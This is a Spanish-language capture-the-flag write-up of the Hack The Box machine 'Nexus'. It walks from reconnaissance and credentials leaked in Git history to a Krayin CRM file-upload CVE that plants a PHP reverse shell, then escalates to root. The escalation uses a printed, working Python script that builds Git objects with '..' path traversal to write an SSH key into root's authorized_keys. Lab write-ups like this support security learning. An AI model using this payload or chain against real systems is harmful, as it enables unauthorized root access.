## Reconocimiento

Me conecté a Hack The Box mediante OpenVPN, identifiqué la IP de la máquina y comencé con un escaneo TCP de todos los puertos:

```bash
nmap -p- -Pn -sS -T4 10.129.155.231 -oN escaneo_rapido.txt
```

El resultado mostró dos puertos abiertos: **22/SSH** y **80/HTTP**.



Después ejecuté un escaneo con detección de versiones y scripts predeterminados sobre los 100 puertos más comunes:

```bash
nmap -sCV 10.129.155.231 --top-ports 100 -oN escaneo_top_100_scripts.txt
```

Nmap identificó OpenSSH 9.6p1 y nginx 1.24.0 en Ubuntu. El título de la página HTTP apuntaba a Nexus Energy Authority.



Para acceder al sitio por su nombre, añadí `nexus.htb` a `/etc/hosts`:

```bash
echo "10.129.155.231 nexus.htb nexus" | sudo tee -a /etc/hosts > /dev/null
```



## Enumeración web

Al visitar el servicio HTTP encontré la web de Nexus Energy Authority. En una oferta de empleo aparecía el correo de Jones, `j.matthew@nexus.htb`, una pista que guardé para más adelante.



Como no encontré más pistas en la web principal, busqué subdominios mediante la cabecera `Host`. Probé Wfuzz y Gobuster sin resultados, pero Ffuf sí encontró `git`:

```bash
ffuf -u http://10.129.157.10/ -H "Host: FUZZ.nexus.htb" -w /usr/share/seclists/Discovery/DNS/bitquark-subdomains-top100000.txt -t 10 -ac -s
```



La IP cambió entre capturas porque reinicié la máquina durante la resolución.

En `git.nexus.htb` encontré una instancia de Gitea. Al explorarla, localicé el repositorio `admin/krayin-docker-setup`, cuyo historial mostraba dos commits.





## Credenciales en el historial de Git

Al revisar los commits encontré un cambio en el archivo `.env`. Aunque se había eliminado la contraseña del archivo, seguía visible en el historial. También aparecía la dirección `http://billing.nexus.htb`.



Añadí el subdominio al archivo `hosts` y entré en `billing.nexus.htb`. La página era un inicio de sesión de Krayin CRM. Probé el correo que había encontrado en la web junto con la contraseña del commit y conseguí entrar.



## Acceso inicial: subida de archivos en Krayin

Investigando Krayin encontré el [CVE-2026-38526](https://github.com/TREXNEGRO/Security-Advisories/tree/main/CVE-2026-38526), una vulnerabilidad de subida de archivos que requiere una sesión autenticada. El fallo permite subir un archivo PHP a través del editor de imágenes y ejecutarlo en el servidor.

Dentro de Krayin fui a **Mail**, pulsé **Compose Mail** y elegí la opción para insertar una imagen en el cuerpo del mensaje.





Para obtener una conexión de vuelta utilicé la [reverse shell PHP de pentestmonkey](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php), configurada con la IP de mi máquina y el puerto de escucha. Intercepté la subida con Burp Suite y modifiqué la petición: usé `shell.php` como nombre, `image/jpeg` como tipo de contenido y el código PHP como contenido del archivo.

La respuesta devolvió una URL dentro de `/storage/tinymce/`, señal de que el archivo se había guardado.



Antes de abrir la URL, puse Netcat a escuchar en el puerto configurado:

```bash
nc -lvnp 6666
```

Al visitar la ruta devuelta por la aplicación, recibí una shell como `www-data`.



Para trabajar con más comodidad, mejoré la terminal. Primero ejecuté `script /dev/null -c bash`, suspendí la sesión con `Ctrl+Z` y, en mi terminal local, ejecuté `stty raw -echo; fg`. Al volver a la shell configuré el entorno y el tamaño de la terminal:

```bash
export SHELL=bash
export TERM=xterm
stty rows 27 cols 146
```



## De www-data a Jones

Al revisar los archivos del servidor encontré el directorio de Krayin, accesible para `www-data`. Dentro había otro archivo `.env` con una contraseña de base de datos.



```bash
cd krayin/
cat .env
```



Probé esa contraseña con el usuario `jones` por SSH y conseguí acceder. La contraseña se había reutilizado entre la base de datos y la cuenta del sistema.

```bash
ssh jones@nexus.htb
```



## Enumeración de tareas automáticas

Ya como `jones`, revisé los temporizadores de systemd:

```bash
systemctl list-timers --all
```

Uno llamó mi atención: `gitea-template-sync.timer`, que activaba el servicio `gitea-template-sync.service` periódicamente.





Consulté la configuración del servicio:

```bash
systemctl cat gitea-template-sync.service
```

El servicio se ejecutaba como `root` y lanzaba `/etc/gitea/template-sync.py` con Python. Su descripción indicaba que sincronizaba plantillas de Gitea, así que decidí investigar si podía influir en ese proceso creando una plantilla propia.



## Preparación del repositorio

Volví a Gitea y revisé los usuarios disponibles: aparecían `jones` y `admin`. Probé las contraseñas que ya había encontrado y conseguí entrar como `jones`. Desde esa cuenta creé un repositorio para usarlo como plantilla.





Marqué el repositorio como plantilla para que lo procesara el servicio.



## Acceso como root

Como la web sanitizaba el contenido, cloné el repositorio en mi máquina y preparé el payload localmente. El script crea un commit con una ruta preparada para colocar mi clave pública SSH en el archivo `authorized_keys` de root.

```python
#!/usr/bin/env python3
import hashlib
import os
import subprocess
import sys
import time
import zlib


def write_obj(data, t):
    h = ("%s %d" % (t, len(data))).encode() + b"\x00"
    s = h + data
    sha = hashlib.sha1(s).hexdigest()
    d = os.path.join(".git", "objects", sha[:2])
    os.makedirs(d, exist_ok=True)
    p = os.path.join(d, sha[2:])
    if not os.path.exists(p):
        open(p, "wb").write(zlib.compress(s))
    return sha


def entry(mode, name, sha):
    return ("%s %s" % (mode, name)).encode() + b"\x00" + bytes.fromhex(sha)


if not os.path.isdir(".git"):
    print("Run inside git repo")
    sys.exit(1)

r = subprocess.run(["cat", "/tmp/.k.pub"], capture_output=True, text=True)
if r.returncode != 0:
    print("ssh-keygen -t ed25519 -f /tmp/.k -N ''")
    sys.exit(1)

key = r.stdout.strip() + "\n"
blob = write_obj(key.encode(), "blob")
readme = write_obj(b"# Template\n", "blob")
ssh_t = write_obj(entry("100644", "authorized_keys", blob), "tree")
cur = write_obj(entry("40000", ".ssh", ssh_t), "tree")
fir = write_obj(entry("40000", "root", cur), "tree")

for i in range(4):
    fir = write_obj(entry("40000", "..", fir), "tree")

root = write_obj(
    entry("100644", "README.md", readme) + entry("40000", "..", fir), "tree"
)
ts = int(time.time())
c = "tree %s\nauthor x  %d +0000\ncommitter x  %d +0000\n\ninit\n" % (
    root,
    ts,
    ts,
)
sha = write_obj(c.encode(), "commit")

os.makedirs(os.path.join(".git", "refs", "heads"), exist_ok=True)
open(os.path.join(".git", "refs", "heads", "main"), "w").write(sha + "\n")
print("Done: " + sha)
```

Ejecuté el script dentro del repositorio y subí el commit a Gitea, forzando la actualización de la rama.



